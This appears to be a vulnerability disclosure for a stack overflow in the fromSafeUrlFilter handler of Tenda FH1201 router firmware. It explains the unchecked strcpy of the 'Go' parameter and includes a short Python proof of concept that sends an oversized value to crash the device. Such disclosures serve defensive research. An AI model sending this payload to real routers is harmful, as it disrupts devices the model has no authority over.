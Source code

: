 # Tenda FH1201 fromSafeUrlFilter_Go
### Overview
vendor: Tenda

product: FH1201

version: V1.2.0.14(408)

type: Stack Overflow
### Vulnerability Description
Tenda FH1201 V1.2.0.14(408) were discovered to contain a stack overflow via the Go parameter in the fromSafeUrlFilter function.
### Vulnerability details
In function fromSafeUrlFilter line 30, it reads in a user-provided parameter `Go`, and the variable is passed to the `strcpy` function without any length check, which may overflow the stack-based buffer `dest`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![](images/21.png)

### POC
```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/SafeUrlFilter"

data = {
    "menufacturer": "tenda",
    "Go": "a" * 1000,
}

response = requests.post(url, data=data)
print(response.text)
```

![](images/22.png)
